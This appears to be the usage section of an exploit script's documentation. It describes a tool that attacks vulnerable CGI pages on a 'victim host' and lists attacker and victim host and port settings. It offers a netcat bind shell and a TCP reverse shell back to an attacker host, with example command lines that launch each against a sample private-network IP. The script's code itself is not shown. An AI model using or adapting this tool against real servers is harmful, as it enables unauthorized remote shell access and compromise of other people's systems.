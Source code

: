 
### Usage:
    ./exploit.py var=<value>

### Vars:
    rhost: victim host
    rport: victim port for TCP shell binding
    lhost: attacker host for TCP shell reversing
    lport: attacker port for TCP shell reversing
    pages: specific cgi vulnerable pages (separated by comma)
    proxy: host:port proxy

### Payloads:
    "reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
    "bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

### Example:
    ./exploit.py payload=reverse rhost=10.0.9.4 lhost=10.0.9.15 lport=1234
    ./exploit.py payload=bind rhost=10.0.9.4 rport=1234
